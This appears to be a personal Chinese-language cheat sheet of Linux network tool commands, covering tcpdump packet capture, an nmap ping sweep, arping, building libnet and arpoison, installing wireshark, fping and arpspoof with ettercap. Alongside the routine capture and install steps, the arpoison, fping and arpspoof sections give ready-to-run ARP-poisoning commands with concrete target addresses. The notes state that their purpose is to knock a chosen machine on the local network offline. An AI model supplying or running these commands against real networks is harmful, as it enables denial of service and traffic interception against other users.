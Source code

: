 <!-- TOC depthFrom:1 depthTo:6 withLinks:1 updateOnSave:1 orderedList:0 -->

- [tcpdump](#tcpdump)
	- [抓包](#抓包)
- [nmap](#nmap)
	- [扫描](#扫描)
- [arpping](#arpping)
- [libnet](#libnet)
- [arpison](#arpison)
- [wireshark](#wireshark)
- [fping](#fping)
- [arpspoof](#arpspoof)

<!-- /TOC -->


# tcpdump
check complain mode   
tcpdump: test1.log: Permission denied  
开始以为是用户权限的问题，后来换用root账户还是不行，经搜索，是AppArmor的问题  
apt-get install apparmor-utils
sudo aa-complain /usr/sbin/tcpdump  

截取gre数据包  
tcpdump |grep -i "gre"  


## 抓包
tcpdump -i eth0 -nn 'host 192.168.2.249' -w check.cap
tcpdump -i eth0 -nn 'host 192.168.2.246' -w check.cap
tcpdump  -p arp
tcpdump host 192.168.2.1 -w check.cap
抓取网口eth0上源mac地址或目的mac地址为00:21:85:6C:D9:A3的所有数据包  
tcpdump -i eth0 ether src or dst 34:97:f6:99:a1:ed -w check.cap   

sudo tcpdump -n -r arp_check222.cap|awk -F '[,]+' '{print $2}'|sort|uniq -c|sort -n  

# nmap
## 扫描
nmap -sP 192.168.2.0/24

# arpping

用法举例：比如我的ip 192.168.1.101 网关:192.168.1.1  
arping -U -I eth0 -s 192.168.2.88 192.168.2.1  
arping -U -I eth0 -s 192.168.1.229 192.168.1.1  

# libnet
wget https://nchc.dl.sourceforge.net/project/libnet-dev/libnet-1.1.6.tar.gz  
tar zxvf libnet-1.1.6.tar.gz  
cd libnet-1.1.6/  
sudo ./configure  
sudo make  
sudo make install  


# arpison
gcc arpoison.c /usr/local/lib/libnet.a -o arpoison  
sudo ln -sf arpoison /bin/arpoison  

比如我想防止arp 攻击
sudo arpoison -i eth0 -d 192.168.1.1 -s 192.168.1.101 -t ff:ff:ff:ff:ff:ff -r 00:1c:bf:03:9f:c7

比如我想攻击192.168.1.50的机器不让他上网
sudo arpoison -i eth0 -d 192.168.1.50 -s 192.168.1.1 -t ff:ff:ff:ff:ff:ff -r 00:1c:bf:03:9f:c7
sudo arpoison -i enp4s0 -d 192.168.2.249 -s 192.168.2.1 -t ff:ff:ff:ff:ff:ff -r 1c:1b:0d:2d:94:87

# wireshark  
sudo apt-add-repository ppa:wireshark-dev/stable  
sudo apt-get update  
sudo apt-get install wireshark  
sudo dpkg-reconfigure wireshark-common  

# fping
在一个局域网中，我们如果要对某个主机进行断网攻击的话，我们先要查看局域网中的ip  
fping –asg 10.10.10.0/24  

# arpspoof
进行断网攻击  
sudo arpspoof -i enp4s0 -t 192.168.2.252 192.168.2.254  
ettercap -Tq -i enp4s0  

# ifstat
流量监控;  
sudo atp-get install ifstat
